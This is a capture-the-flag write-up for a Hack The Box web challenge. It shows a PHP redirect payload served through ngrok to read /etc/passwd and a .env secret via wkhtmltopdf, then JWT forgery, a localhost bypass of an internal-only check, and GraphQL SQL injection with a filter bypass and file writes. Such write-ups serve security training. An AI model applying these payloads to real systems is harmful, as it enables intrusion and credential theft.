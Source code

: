 
---

# 🐧 Penguin's Offensive Security — HTB CTF Writeup

## Challenge Name: Blueprint Heist  
**Platform:** Hack The Box  
**Category:** Web  
**Difficulty:** Medium  
**Exploit Type:** Vulnerability Chaining

* Programming (JavaScript, EJS, SQL)
* Understanding of JWT Tokens
* Identification and exploitation of known vulnerable software
* Vulnerability chaining

---

### 📖 Description

Greetings and welcome to the world of **Penguin's Offensive Security**!

This repository contains the write-up for the Hack The Box CTF challenge titled **Blueprint Heist**. This is a medium-level, web-based challenge.

---

## 🕳️ Vulnerabilities Exploited

* `wkhtmltopdf` v0.12.5 (RCE)
* Local File Inclusion (LFI) to expose JWT secret
* SQL Injection (SQLi) to write files
* Misconfigured JWT validation logic

---

## 🌐 Website Overview

![Image1](/imgs/1.png)
The landing page contains two links.

Inspecting the source code (not fully discussed here due to length):

![Image2](/imgs/2.png)
The `authcontroller` checks only for the `admin` value in the JWT token — no additional checks.

![Image3](/imgs/3.png)
In `/app/.env`, the **JWT secret key** is exposed. Also note:

* The **database user is `root`**, which has full write permissions — critical for later RCE.
* This can eventually lead to **remote code execution**.

---

## ⚙️ Exploitation Process

### 🔎 Initial Recon

Clicking the first link and observing with Burp Suite reveals the following routes:

1. `/getToken` – Generates a **guest JWT token**
2. `/download?token=xyz` – Downloads a PDF using the provided token

![Image4](/imgs/4.png)
Sending request 2 to Repeater shows an error after some time — this error leaks the `wkhtmltopdf` version.

---

## 🚀 Exploiting wkhtmltopdf

Searching for the exploit online leads to an RCE vulnerability.

### Exploit Setup

```bash
# Step 1: Navigate to your web directory
cd /var/www/html

# Step 2: Create an exploit file
nano exp.php
# Paste the following payload:
# <?php header('location:file://'.$_REQUEST['x']); ?>

# Step 3: Save and close (Ctrl + O, then Ctrl + X)

# Step 4: Start a PHP server
php -S 0.0.0.0:8000

# Step 5: Start ngrok to expose local server
ngrok tcp 8000
```

### Exploitation Steps

* Replace `tcp://` with `http://` in the ngrok URL, e.g.:
  `http://<your-ngrok-url>/exp.php?x=/etc/passwd`

![Image5](/imgs/5.png)
Access this URL via the `url` parameter in `/download`. You’ll get a 200 OK response with a PDF showing the file contents.

![Image6](/imgs/6.png)
Now use this method to read `/app/.env`:

![Image7](/imgs/7.png)
You'll extract the **JWT secret key** here (hidden to let you try it).

---

## 🔐 JWT Token Forgery

With the secret key:

1. Visit [jwt.io](https://jwt.io/)
2. Paste your guest token and the secret key
3. Modify the payload to `"role": "admin"`
4. Copy the newly signed token

![Image8](/imgs/8.png)

---

## 🧱 Bypassing Internal-Only Access

Accessing `http://challenge-url:1337/admin?token=admin-token` throws an **"Only For Internal Users"** error.

Code snippet from `/app/utils/security.js`:

```js
function checkInternal(req) {
    const address = req.socket.remoteAddress.replace(/^.*:/, '');
    return address === "127.0.0.1";
}
```

### 💡 Solution

Modify the `url` parameter to:

```
http://localhost:<port>/admin?token=admin-token-here
```

![Image9](/imgs/9.png)
![Image10](/imgs/10.png)

This will return a downloadable HTMLtoPDF file with a `username` parameter which we will use to test SQLi.
![Image10=1](/imgs/11.png)

---

## 🧬 SQL Injection to RCE & Flag Retrieval

Now access `/graphql` using:

* `token` (admin JWT)
* `query` (GraphQL injection payload)

### 🔥 Regex-Based Filter Bypass

The following function tries to detect SQLi:

```js
function detectSqli(query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'",.<>\/?]/;
    return pattern.test(query);
}
```

To bypass, use escape sequences:

```graphql
"a\u000d\u000a"
```

### 🔓 Payload Format

```graphql
{
  getDataByName(name:"<injection here>") {
    name
    department
    isPresent
  }
}
```

Try:

* `ORDER BY` or `GROUP BY` to determine column count
* `UNION SELECT` to find injectable columns
* `INTO OUTFILE` to write data into known error logs

![Image12](/imgs/12.png)
![Image13](/imgs/13.png)

---

## 🏁 Conclusion

After chaining LFI, JWT manipulation, internal access bypass, and SQLi with file write, you should be able to read the final flag.

**Congratulations — you captured the flag! 🎉**

---

If you'd like this in a downloadable markdown file or want a template for your future write-ups, just let me know!

